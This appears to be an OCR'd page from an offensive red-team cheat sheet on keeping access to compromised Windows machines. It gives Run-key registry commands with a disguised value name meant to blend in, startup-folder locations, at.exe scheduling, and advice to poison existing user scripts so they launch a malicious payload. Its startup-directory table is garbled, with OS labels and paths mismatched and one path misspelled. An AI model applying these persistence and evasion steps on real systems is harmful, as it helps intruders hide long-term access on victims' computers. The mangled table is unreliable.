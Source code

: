 ## RUN KEY USER PERSISTENCE
*Upload binary and add run key value pointing at uploaded binary. Can change OfficeUpdater to run key value that blends into target system.*
| Description | Command |
|-------------|---------|
| Add key | `reg ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /V OfficeUpdater /t REG_SZ /F /D "<FILE_PATH>"` |
| Query key | `reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` |
| Delete key | `reg delete HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /V OfficeUpdater` |

## STARTUP DIRECTORIES

*Upload binary to a specific "startup" folder. All files in this folder are executed on user login.*

| Description | Directory |
|-------------|-----------|
| Windows NT 6.1, 6.0, Windows 10, Windows 11 | `%SystemDrive%\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` |
| All users: | `%SystemDrive%\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` |
| Specific users: | `%SystemDrive%\Documents and Settings\All Users\Start Menu\Programs\Startup` |
| Windows NT 5.2, 5.1, 5.0 | `%SystemDrive%\wmlOWS\Start Menu\Programs\Startup` |
| Windows 9x | `%SystemDrive%\WINNT\Profiles\All Users\Start Menu\Programs\Startup` |
| Windows NT 4.0, 3.51, 3.50 | |

## AT.EXE SCHEDULE (WINXP)

| Description | Command |
|-------------|---------|
| Schedule task | `at HH:MM <FILE_PATH> [ARGS]` |
| Delete task | `at <TASK_ID> /delete` |

## POISONING EXISTING SCRIPTS
*Enumerate all user persistence methods discussed in this section looking for existing persistence that has been created via script files such as .bat, .ps1, etc. If those are modifiable by a basic user, modify them to launch a malicious uploaded payload. Just beware, if the script is on a file server it could be executed by many users.*

# System Level Persistence

*This section details important and useful SYSTEM level persistence techniques. Since they are "SYSTEM" they will require administrative privileges and most of them execute during system startup.*

## SCHTASKS ON BOOT
